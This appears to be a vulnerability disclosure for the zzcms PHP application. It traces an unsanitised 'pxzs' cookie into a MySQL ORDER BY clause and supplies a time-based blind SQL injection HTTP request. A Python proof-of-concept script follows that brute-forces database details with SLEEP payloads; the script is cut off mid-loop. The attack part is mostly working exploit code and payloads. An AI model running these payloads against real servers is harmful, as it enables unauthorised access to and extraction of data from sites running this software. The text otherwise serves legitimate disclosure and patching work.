 the following code got $px from cookie without any checking bettween line 12  and 20

```php
if (isset($_GET["px"])){
$px=$_GET["px"];
	if ($px!='hit' && $px!='id' && $px!='sendtime'){
	$px="sendtime";
	}
setcookie("pxzs",$px,time()+3600*24*360);
}else{
$px=isset($_COOKIE['pxzs'])?$_COOKIE['pxzs']:"sendtime";
}
```

and $px used in the following code to query in mysql bettween 299 and 302

```php
$sql="select id,proname,prouse,shuxing_value,img,province,city,xiancheng,sendtime,editor,elite,userid,comane,qq,groupid,renzheng from zzcms_main where passed=1 ";	
$sql=$sql.$sql2;
$sql=$sql." order by groupid desc,elite desc,".$px." desc limit $offset,$page_size";
$rs = query($sql); 
```

 so attack could make poc like:

```http
GET /zs/zs_list.php HTTP/1.1
Cookie: pxzs=(SELECT(1)FROM(SELECT(SLEEP((3-length(database()))*3)))abcd);
Connection: close
```

the python3 poc as following:

```python
#/usr/local/bin/python3
# -*-coding:utf-8-*-
 
import requests
import time

def zs_sqli(host):
    payloads = '-.@_abcdefghijklmnopqrstuvwxyz0123456789{}'
     
    result = ""

    headers = {"Host": host,
               "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.115 Safari/537.36",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding": "gzip, deflate",
               "Connection": "keep-alive",
               }
    cookies = {"bdshare_firstime":"", "PHPSESSID":"", "UserName":"", "PassWord":""}
    url = "http://%s/zs/zs_list.php" % host
    #proxies = {"http":"http://127.0.0.1:8080"}
    proxies = ""
    rlen = 0

    print("Start\n")

    for i in range(1,100):
        pxzs = "(SELECT(1)FROM(SELECT(SLEEP((%d-length(user()))*1)))abcd)" %i
        cookies["pxzs"] = pxzs
        starttime = time.time()

        res = requests.get(url, headers=headers, cookies=cookies, proxies=proxies)
```